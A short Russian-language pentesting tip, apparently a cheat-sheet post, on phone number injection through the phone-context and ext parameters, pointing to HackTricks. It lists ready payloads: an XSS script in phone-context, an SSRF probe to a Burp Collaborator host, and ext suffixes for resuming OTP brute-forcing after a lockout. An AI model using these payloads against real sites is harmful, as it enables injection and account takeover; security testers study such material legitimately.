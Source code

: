 Пример: параметр phone-context может использоваться для определения того, какой код страны(+7,+1) используется. Если ты зашел на сайт и определился твой город, то при регистрации вводя свой номер телефона, ты можешь вписать свой номер без кода страны т.к. он может подставится в параметр.

🟩Атаки используя параметры:
 ✅ XSS 
+88005553535;phone-context=<script>alert(1)</script>
// Следует поставить в query string параметр в который помещен номер

 ✅ SSRF 
+88005553535;phone-context=burpcollab
// Работает редко, в основном в старых системах

 ✅ OTP Обход блокировки 
+88005553535;ext=0 
+88005553535;ext=2 
+88005553535;ext=3
// Если заблокировали то подставляем ext с цифрой и продолжаем брутить с того кода, с которого залочили 

📌 Более подробно изучить можно тут:
[HackTricks](https://book.hacktricks.xyz/pentesting-web/phone-number-injections)